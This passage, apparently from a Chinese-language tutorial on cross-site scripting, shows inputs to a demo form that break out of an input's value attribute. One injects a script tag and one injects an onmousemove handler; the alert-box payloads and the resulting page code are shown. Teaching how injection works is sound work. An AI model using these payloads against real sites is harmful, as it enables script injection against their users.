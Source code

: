 input提前闭合了！之后的`">`就被舍弃了，变成了普通文本。

### 输入四

如果我输入：`"><script>alert('xss')</script>`

显示效果：

![asc](XSS攻击/asc.gif)

### 输入五

现在我不想显示弹框攻击了，我想触发某种事件实现攻击，那么就输入以下内容：

```html
" onmousemove="alert('我就测试一下')"
```

显示结果：

![asc](XSS攻击/asc-1562308830171.gif)

页面代码：

```html
  <center>
    <h6>把我们输入的字符串 输出到input里的value属性里</h6>
    <form action="" method="get">
      <h6>请输入你想显现的字符串</h6>
      <input type="text" name="xss_input_value" value="输入"><br>
      <input type="submit">
    </form>
    <hr>
    <input type="text" value="" onmousemove="alert('我就测试一下')"">  </center>

```

